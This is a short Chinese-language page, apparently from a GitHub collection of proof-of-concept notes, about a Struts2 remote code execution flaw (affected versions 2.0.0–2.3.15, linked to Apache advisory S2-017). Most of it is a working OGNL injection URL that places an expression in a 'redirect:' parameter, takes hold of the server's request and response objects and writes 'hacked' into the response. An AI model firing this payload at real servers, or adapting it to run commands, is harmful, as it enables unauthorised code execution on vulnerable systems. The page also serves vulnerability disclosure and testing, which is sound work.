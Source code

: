 # Struts2远程代码执行

受影响版本:

- 2.0.0-2.3.15

详情[参看](https://cwiki.apache.org/confluence/display/WW/S2-017)

POC过程:

<pre>
http://localhost/strut2demo/HelloWorld.action?redirect:${#req=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),#a=#req.getSession(),#matt=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#matt.getWriter().print('hacked'),#matt.getWriter().flush(),#matt.getWriter().close()}
</pre>